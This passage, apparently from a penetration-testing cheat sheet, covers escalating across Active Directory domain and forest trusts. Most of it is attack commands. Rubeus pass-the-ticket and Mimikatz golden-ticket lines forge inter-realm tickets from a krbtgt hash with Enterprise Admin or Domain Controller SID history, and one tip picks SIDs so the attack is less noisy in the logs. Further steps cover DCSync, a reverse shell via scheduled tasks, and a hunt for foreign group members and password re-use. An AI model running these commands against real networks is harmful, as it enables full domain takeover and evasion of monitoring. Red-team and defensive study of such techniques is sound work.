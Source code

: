 Plaintext

Pass this ticket with Rubeus.

```powershell
.\Rubeus.exe asktgs /ticket:c:\users\public\ticket.kirbi /service:LDAP/dc.targetdomain.com /dc:dc.targetdomain.com /ptt
```

PowerShell

We can now DCSync the target domain (see below).

**Using krbtgt hash**

From the DC, dump the krbtgt hash using e.g. DCSync or LSADump. Then, using this hash, forge an inter-realm TGT using Mimikatz, as with the previous method.

Doing this requires the SID of the current domain as the `/sid` parameter, and the SID of the target domain as part of the `/sids` parameter. You can grab these using PowerView’s `Get-DomainSID`. Use a SID History (`/sids`) of `*-516` and `S-1-5-9` to disguise as the Domain Controllers group and Enterprise Domain Controllers respectively, to be less noisy in the logs.

```
kerberos::golden /domain:currentdomain.targetdomain.com /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /user:DC$ /groups:516 /ptt
```

Plaintext

> If you are having issues creating this ticket, try adding the ‘target’ flag, e.g. `/target:targetdomain.com`.

Alternatively, generate a domain admin ticket with SID history of enterprise administrators group in the target domain.

```
kerberos::golden /user:Administrator /domain:currentdomain.targetdomain.com /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /sids:S-1-5-21-280534878-1496970234-700767426-519 /ptt
```

We can now immediately DCSync the target domain, or get a reverse shell using e.g. scheduled tasks.

#### Abusing inter-forest trust <a href="#abusing-inter-forest-trust" id="abusing-inter-forest-trust"></a>

Since a forest is a security boundary, we can only access domain services that have been shared with the domain we have compromised (our source domain). Use e.g. BloodHound to look for users that have an account (with the same username) in both forests and try password re-use. Additionally, we can use BloodHound or PowerView to hunt for foreign group memberships between forests. The PowerView command:

```powershell
Get-DomainForeignGroupMember -domain targetdomain.com
```

PowerShell
